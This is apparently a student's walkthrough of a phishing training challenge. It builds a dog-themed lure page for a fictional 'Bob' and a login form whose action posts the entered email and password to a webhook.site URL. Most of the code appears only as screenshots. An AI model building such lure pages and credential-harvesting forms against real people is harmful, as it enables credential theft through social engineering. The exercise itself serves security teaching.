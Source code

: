 # Let's go Phishing

- Mode : Solo
- Duration : 4 days


## Challenge

- Bob has a dog (a bull terrier) named "Shimi". Bob really loves his dog. 
- Alice is a fan of Mécanique. She has two vintage cars and often likes to parade around with her ancestral objects.
- Your mission will be to obtain Alice's or Bob's password

# I Chose to take Bob's challenge

Prerequisites:
1. VSCodium- Text editor 
 

## Downloading VSCodium
1. Go to command prompt on windows
2. write this command

| winget install vscodium   |  

## Step1:
* Create a folder called web-projects. I created in c:/github/
* Now I will create:test-site folder inside web-projects
* index1.html: This file will generally contain your homepage content, that is, the text and images that people see when they first go to your site. Using your text editor, create a new file called index1.html and save it just inside your test-site folder.
* images folder: This folder will contain all the images that you use on your site. Create a folder called images, inside your test-site folder.
* styles folder: This folder will contain the CSS code used to style your content (for example, setting text and background colors). Create a folder called styles, inside your test-site folder.

## Step2:
* Writing HTML script in index1.html
* Here are the screenshots of index1.html
 ![clipboard](https://i.imgur.com/UYsqQy9.png)

![clipboard](https://i.imgur.com/WRjjx1B.png)
This will create a very basic html file if it was not for style/style.css

* Basic HTML page without image and css file which gives it a texture

![clipboard](https://i.imgur.com/C2i1zV4.png)


## Step3:
* To add texture and look to our HTML file we make styles.css file
* ![clipboard](https://i.imgur.com/rImlzF7.png)
* ![clipboard](https://i.imgur.com/KHlCtGs.png)
 Now, this file is the real designer of our html page

* Adding an image and css file to our html page:

![clipboard](https://i.imgur.com/DcNV7rM.png)
![clipboard](https://i.imgur.com/ZFSKqf1.png)


!! You see a huge difference
## Step4:
* I have added one more functionality :
 When someone clicks on the link "I am a Dog lover", it takes it to another html page called formwebhook.html. I have saved it directly in test-site folder. This will take the user to a new page asking him to fill his credentials. Once filled and clicked on the submit button, his email and password will be taken by webhook.site url as I have used 
 
 <--form action="webhook.site url" method="post">
 
 ![clipboard](https://i.imgur.com/ht3rcQa.png)
 
 
## Step5:
Now to add some texture and colour to our form page, I have added one more css file called formstyle.css in styles folder.
![clipboard](https://i.imgur.com/mbmidJe.png)
 This is how our second page looks after adding .css file to the second html page.

![clipboard](https://i.imgur.com/mAFD0ts.png)


 # And there you have a phishing page stealing the credentials of Bob!
 
 ![clipboard](https://i.imgur.com/YXX6vl9.png)


## Resources

- [MDN HTML](https://developer.mozilla.org/en-US/docs/Learn/HTML)
- [MDM Form](https://developer.mozilla.org/en-US/docs/Web/HTML/Element/form)
- [MDN CSS](https://developer.mozilla.org/en-US/docs/Learn/CSS)
- [Cheatsheet Html](https://learnxinyminutes.com/docs/html/)
- [Cheatsheet CSS](https://learnxinyminutes.com/docs/css/)

## Hint
- [Webhook](https://webhook.site/)
 